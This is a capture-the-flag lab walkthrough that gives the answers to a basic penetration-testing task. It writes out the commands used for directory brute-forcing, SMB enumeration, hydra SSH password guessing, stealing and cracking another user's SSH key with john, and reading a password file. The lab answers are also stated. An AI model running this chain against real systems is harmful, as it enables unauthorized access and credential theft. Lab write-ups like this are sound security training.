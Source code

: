# basic penetrasi

## Task 1 Web App Testing and Privilege Escalation
- deploy
- Find the services exposed by the machine
- What is the name of the hidden directory on the web server(enter name without /)? development
  ```
  gobuster dir -u http://10.10.10.1 -w directory.txt -t 50

  /development
  ```
- User brute-forcing to find the username & password
- What is the username? jan
  ```
  enum4linux 10.10.10.1 | tee enum.log
    > anonymous, and ipc$

  smbclient //10.10.10.1/anonymous
    smb> get staff.txt
  ```
- What is the password?
  ```
  hydra -l jan -P rockyou.txt ssh://10.10.10.1 -T 100
  
  armando
  ```
- What service do you use to access the server(answer in abbreviation in all caps)? ssh
- Enumerate the machine to find any vectors for privilege escalation
  ```
  enumLinux.sh # jan
  ```
- What is the name of the other user you found(all lower case)? kay
  ```
  # jan
  ls /home
  cd /home/kay
  cd .ssh
  copy text id_rsa
  
  # kali
  nano id_rsa
  locate ssh2j

  /usr/share/john/ssh2john2.py id_rsa > hash.txt
  cat hash.txt
    check first line: sshng$1$

  open linux shadow hash
    $1$ is MD5

  jhon hash.txt --worldlist=/usr/share/worldlist/rockyou.txt
    pass = beeswax (id_rsa)
  ```
- If you have found another user, what can you do with this information?
- What is the final password you obtain? heresareallystrongpasswordthatfollowsthepasswordpolicy$$
  ```
  # jan
  ssh -i id_rsa kay@10.10.74.242
    beeswax

  cat pass.bax
  heresareallystrongpasswordthatfollowsthepasswordpolicy$$
  ```